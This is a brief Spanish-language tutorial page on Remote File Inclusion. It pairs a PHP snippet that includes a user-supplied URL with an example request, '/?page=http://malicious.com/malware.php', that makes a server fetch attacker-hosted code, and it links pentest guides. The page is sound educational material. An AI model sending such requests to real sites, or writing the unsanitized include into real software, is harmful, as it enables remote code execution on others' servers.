 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Remote File Inclusion (RFI)

\
Las vulnerabilidades de inclusión remota de archivos  son similares a las vulnerabilidades LFI. Sin embargo, cuando un atacante explota una vulnerabilidad RFI, en lugar de acceder a un archivo de la víctima, el atacante puede ejecutar código alojado en su propio sistema.

El atacante puede crear un archivo, un atacante podría realizar la siguiente solicitud HTTP para engañar a la aplicación para que ejecute código malicioso en el lado del servidor:

```php
$file = $_GET['file'];
include($file);
```

```
/?page=http://malicious.com/malware.php
```

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion" %}

{% embed url="https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/" %}
